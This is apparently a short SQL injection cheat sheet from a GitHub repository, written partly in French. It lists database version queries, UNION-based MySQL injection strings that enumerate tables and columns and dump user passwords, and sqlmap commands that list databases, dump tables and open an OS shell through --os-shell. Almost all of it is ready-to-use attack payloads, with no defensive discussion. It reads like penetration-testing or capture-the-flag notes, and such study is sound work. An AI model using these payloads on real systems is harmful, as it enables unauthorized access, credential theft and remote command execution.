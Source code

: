 #SQLIinjection 
# Get Version of SGBD
*Oracle*
```
SELECT  banner  FROM  v $ version
```
*MySQL or MSSQL*
```
@@ version
```
*SQLite*
```
select sqlite_version()
```

# Commandes for SQLite
*Get all tables of database*
```
SELECT  group_concat ( tbl_name )  FROM  sqlite_master  WHERE  type = ' table '  and  tbl_name  NOT  like  ' sqlite_% '
``` 
*Get all columns of a table*
```
SELECT  sql  FROM  sqlite_master  WHERE  type != ' meta '  AND  sql  NOT  NULL  AND  name = ' table_name '
```

# MySQL
*Chercher nombre de colonnes*
 ```
 ' or 0=0 order by 5#
 ```
 
```
 1 or 0=0 order by 4#
```
*Afficher toutes les occurences*
```
 ' or 0=0#
```

*Nom de base*
```
1 or 0=0 union select database(), user() #
``` 
*Chercher liste des  tables*
``` 
1 or 0=0 union all select 1, table_name from information_schema.tables#
```
*chercher liste des colonnes*
```
' or 0=0 union all select 2, column_name from information_schema.columns# 
```
*Mots de passe*
```
' or 0=0 union all select user, password from  users#
```


# sqlmap
*to get shell*
```
sqlmap -u 'http://htb/dashboard.php?search=any+query' --cookie="Name=value" --os-shell
``` 
*to chow databases*
```
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```
*show tables*
```
sqlmap -u "http://localhost:8081/?id=1" -D soccer_db --tables
```
*columns*
```
sqlmap -u "http://adress/?id=1" -D db_name -T table_name -dump
```